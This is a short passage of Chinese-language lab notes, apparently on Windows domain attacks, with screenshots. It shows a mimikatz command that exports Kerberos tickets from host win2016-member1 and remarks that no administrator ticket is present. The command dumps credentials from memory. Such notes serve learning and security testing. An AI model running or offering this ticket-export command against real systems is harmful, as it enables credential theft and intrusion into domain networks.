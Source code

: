 ![](vx_images/4992541108692.png)

- 此时我们导出 win2016-member1 的票据, 可以发现没有关于 administrator 的票据

```
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit
```

![](vx_images/5668606125949.png)
